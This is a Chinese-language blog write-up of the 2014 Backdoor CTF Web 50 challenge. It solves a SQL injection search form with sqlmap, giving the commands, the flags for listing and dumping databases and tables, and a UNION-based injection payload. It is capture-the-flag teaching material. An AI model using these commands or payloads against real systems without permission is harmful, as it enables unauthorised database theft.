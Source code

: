 ```yaml
---
layout: post
title: "Blackdoor CTF Web 50"
date: 2014-03-25 23:11:59 +0800
comments: true
categories: 
- blackdoor 2014
- CTF
- Web 
---
```


SQL injection 基礎題，下收 sqlmap 基本用法。

<!-- more -->

題目:

![2014 blackdoor CTF web 10 question](/images/2014-03-25-backdoor-web-50/web-50-question-0.PNG)
![2014 blackdoor CTF web 10 question](/images/2014-03-25-backdoor-web-50/web-50-question.PNG)


是個搜尋介面，隨便打個字串...

![2014 blackdoor CTF web 10 question](/images/2014-03-25-backdoor-web-50/web-50-answer-0.PNG)


看起來像是 SQL injection，多 try 幾次:

![2014 blackdoor CTF web 10 question](/images/2014-03-25-backdoor-web-50/web-50-answer-1.PNG)


Hmm, 說來慚愧，其實我 sql injection 直接硬打實在不是很熟，直接上 sqlmap

    sqlmap -u http://backdoor.cognizance.org.in/problems/web50/search.php \
           --data='search="12"'

sqlmap 的基本用法:

     -u : 指定 target URL
     --data: 指定可以 injection 的參數

成功的話會吐出如何 injection 的 payload

    sqlmap identified the following injection points with a total of 0 HTTP(s) 
    requests:
    ---
    Place: POST
    Parameter: search
    Type: UNION query
    Title: MySQL UNION query (NULL) - 1 to 10 columns
    Payload: search=a') UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,118,119,122,58)
        ,CHAR(89,118,81,114,79,117,87,111,120,104),CHAR(58,105,115,101,58))# AND ('
        IqLA'='IqLA
    ---

接下來 dump DB, table, 各種隨意

    --dbs:   列出這台機器上有跑的資料庫
    --table: 列出這個資料庫裡面的 tables
    -D:      指定現在要使用的資料庫
    -T:      指定現在要使用的 table
    --dump:  取得裡面的資料

用 --dbs & --table 找出 flag 藏身之處，再 dump 出來:

     sqlmap -u http://backdoor.cognizance.org.in/problems/web50/search.php \
            --data='search="12"' \
            -D sqli_db \
            -T the_flag_is_over_here \
            --dump

大概就是這樣囉。
